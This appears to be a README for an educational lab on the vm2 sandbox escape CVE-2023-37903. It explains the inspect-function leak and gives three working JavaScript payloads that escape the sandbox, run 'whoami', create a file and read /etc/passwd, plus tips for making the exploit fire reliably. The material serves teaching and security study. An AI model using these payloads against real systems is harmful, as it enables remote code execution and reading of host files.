 # vm2 Sandbox Escape Lab (CVE-2023-37903)

## Overview

This educational lab demonstrates the **CVE-2023-37903** vulnerability in vm2@3.9.19, which allows attackers to escape the sandbox and execute arbitrary code on the host system.

## How the Vulnerability Works

The vulnerability exploits Node.js's custom inspect function mechanism:

1. **Custom Inspect Function**: Node.js allows objects to define custom inspect functions via `Symbol.for('nodejs.util.inspect.custom')`
2. **Cross-Realm Access**: This symbol is available across different execution contexts
3. **Function Leakage**: The `inspect` function from the host context can be leaked into the sandbox
4. **Host Access**: The leaked `inspect` function has access to the host's `process` object
5. **Sandbox Escape**: By triggering `WebAssembly.compileStreaming()` with a malformed object, the custom inspect function is executed, allowing sandbox escape

### Example Payloads

#### Basic Sandbox Escape
```javascript
const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');

obj = {
    [customInspectSymbol]: (depth, opt, inspect) => {
        inspect.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
    },
    valueOf: undefined,
    constructor: undefined,
}

WebAssembly.compileStreaming(obj).catch(()=>{});
```

#### Command Execution
```javascript
const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');

obj = {
    [customInspectSymbol]: (depth, opt, inspect) => {
        return inspect.constructor('return process')().mainModule.require('child_process').execSync('whoami');
    },
    valueOf: undefined,
    constructor: undefined,
}

WebAssembly.compileStreaming(obj).catch(()=>{});
```

#### File System Access
```javascript
const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');

obj = {
    [customInspectSymbol]: (depth, opt, inspect) => {
        return inspect.constructor('return process')().mainModule.require('fs').readFileSync('/etc/passwd', 'utf8');
    },
    valueOf: undefined,
    constructor: undefined,
}

WebAssembly.compileStreaming(obj).catch(()=>{});
```

## Common Issues & Solutions

### "Identifier already declared" Error

**Why this happens:**
- vm2 sandbox maintains a **persistent global context** between executions
- Variables declared with `const` or `let` remain in the global scope
- `Symbol.for()` always returns the same symbol across executions
- The sandbox doesn't automatically clear variables between `vm.run()` calls

**Technical Explanation:**
```javascript
// First execution:
const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');
// ✅ Works fine

// Second execution (same sandbox):
const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');
// ❌ Error: Identifier 'customInspectSymbol' has already been declared
```

**Why clearing doesn't work:**
- `delete global.customInspectSymbol` fails because `const` variables can't be deleted
- vm2 sandbox has limitations on global variable manipulation
- The sandbox context persists until the VM instance is destroyed

**Solutions:**
1. **Restart the server** - This creates a fresh VM instance
2. **Use different variable names** - Each execution uses unique names
3. **Use IIFE scope** - Wrap code in `(() => { ... })()` to avoid global scope
4. **Use function wrappers** - Encapsulate code in functions

### 🔧 Practical Workarounds

**Method 1: Dynamic Variable Names**
```javascript
const timestamp = Date.now();
const dynamicSymbol = Symbol.for('nodejs.util.inspect.custom');
// Use timestamp to ensure uniqueness
```

**Method 2: IIFE Scope**
```javascript
(() => {
    const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');
    // Your payload here
})();
```

**Method 3: Function Wrapper**
```javascript
function executePayload() {
    const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');
    // Your payload here
}
executePayload();
```

**Why it shows success but doesn't execute:**
1. **Scope issue**: `obj` is not properly declared
2. **Execution context**: The custom inspect function might not be triggered
3. **Error handling**: `WebAssembly.compileStreaming()` catches errors silently

### 🛠️ Troubleshooting Guide

**Problem**: Getting "Identifier already declared" error repeatedly
**Root Cause**: vm2 sandbox persistence
**Best Solution**: Restart the server

**Problem**: Sandbox management methods don't work
**Explanation**: vm2 sandbox limitations prevent variable deletion
**Solution**: Use server restart or IIFE scope

**Problem**: Exploit works once but fails on retry
**Cause**: Global variable conflicts in persistent sandbox
**Fix**: Always restart server between tests

**Problem**: Different payloads interfere with each other
**Reason**: Shared global scope in vm2 sandbox
**Workaround**: Use unique variable names or restart server



## References

- [OWASP Juice-shop RCE On vm2.js Library (CVE-2023-37903)](https://github.com/juice-shop/juice-shop/issues/2715)
- [CVE-2023-37903 Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-37903)
- [vm2 GitHub Repository](https://github.com/patriksimek/vm2)
- [Node.js util.inspect.custom Documentation](https://nodejs.org/api/util.html#utilinspectcustom)
- [WebAssembly.compileStreaming Documentation](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/WebAssembly/compileStreaming)


## License

Apache License 2.0 - See LICENSE file for details

**Remember**: This lab is for educational purposes only. Use responsibly and ethically!
